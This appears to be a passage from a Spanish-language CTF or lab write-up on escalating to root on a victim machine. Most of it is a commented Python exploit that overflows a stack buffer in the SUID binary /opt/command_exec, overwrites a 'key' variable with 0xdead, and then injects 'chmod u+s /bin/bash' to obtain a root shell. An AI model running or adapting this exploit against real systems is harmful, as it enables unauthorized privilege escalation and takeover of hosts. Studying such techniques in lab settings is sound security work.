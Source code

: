 ## Explotacion del binario:
Usaremos el siguiente **script** para elevar privilegios de **root** en la maquina victama ya que en la maquina victima tiene permisos **SUID**:
Usamos este exploit: **( rootExploit.py )** ya en la maquina victima:
```python
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Comando adicional que se ejecutará al sobrescribir la 'key'.
# El comando 'chmod u+s /bin/bash' cambia los permisos de 'bash' para permitir que sea ejecutado
# con privilegios de usuario 'root' (SUID).
# Esto puede ser utilizado para obtener acceso de root al ejecutar el binario modificado.
command = b"chmod u+s /bin/bash"

# 5. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 6. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["/opt/command_exec"]

# 7. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

# 8. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 9. Ahora que hemos sobrescrito la 'key', enviamos el comando adicional que se ejecutará,
# en este caso, 'chmod u+s /bin/bash' para cambiar los permisos de bash y permitir ejecutar bash como root.
process.stdin.write(command + b"\n")
process.stdin.flush()

# 10. Esperamos a que termine el proceso.
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```